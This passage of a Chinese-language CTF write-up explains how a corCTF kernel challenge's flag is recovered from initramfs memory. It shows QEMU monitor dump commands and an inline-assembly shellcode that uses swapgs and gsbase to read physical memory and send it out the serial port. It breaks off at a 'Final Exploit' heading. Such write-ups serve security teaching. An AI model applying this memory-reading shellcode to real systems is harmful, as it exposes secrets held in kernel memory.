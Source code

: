 因為執行環境使用 initramfs 作為檔案系統，因此所有 unpack 的檔案 (包含 flag) 都會存在於記憶體當中。因為這個特性，我們可以透過 shellcode 讀取 flag 所在的記憶體，並想辦法印出來。這邊會遇到兩個問題：

1. flag 位於在記憶體的哪個地方
2. 要怎麼把 flag 印出來



**第一個問題**是使用 QEMU monitor 提供的命令 `pmemsave`，將整個 physical memory dump 出來後，用 `strings` 的方式找到相對位置：

```bash
# In QEMU monitor
pmemsave 0x10000000 0xf0000000 output
strings -t x output | grep "corctf{"
```

在執行 shellcode 時，我們能先執行 `swapgs;`，將 gsbase 切換成 kernel space 的，再透過 gsbase 指向 physical address mapping 的特性，使用相對位置讀取把 flag 給讀出來。舉例來說如果偏移為 1000，下方即是從偏移 1000 處讀 8 bytes 後將資料讀到 rax 當中：

```assembly
mov rdi, 1000
mov rax, %gs:[rdi]
```



**第二個問題**因為 QEMU 在執行 kernel 時有加上參數 `console=ttyS0`，因此我們可以透過指令 `out` 將 register 的內容輸出到 serial port `0x3f8` 當中，QEMU 就會接收到 register 的內容並印到 stdout。



考慮到 flag 的偏移會因為檔案長度而有所不同 (CPIO format)，因此最後用來取得 flag 的 shellcode 會將偏移 `69500000` 到 `70000000` 之間的資料全部印出來，而我們只需要將 socket 接收到的資料導向至另一個檔案，在用 `strings` 的方式取得存在於這些資料當中的 flag 即可：

```c
void shellcode()
{
    asm(".intel_syntax noprefix;"
        "swapgs;"
        "mov rdi, 69500000;"
        "mov rdx, 0x3f8;"
        "b: mov rcx, 0x8;"
        "mov rax, %gs:[rdi];"
        "a:"
        "out dx, al;"
        "shr rax, 8;"
        "dec rcx;"
        "cmp rcx, 0x0;"
        "jne a;"
        "add rdi, 0x8;"
        "cmp rdi, 70000000;"
        "jne b;"
        "c: jmp c;"
        ".att_syntax;");
}
```



### Final Exploit
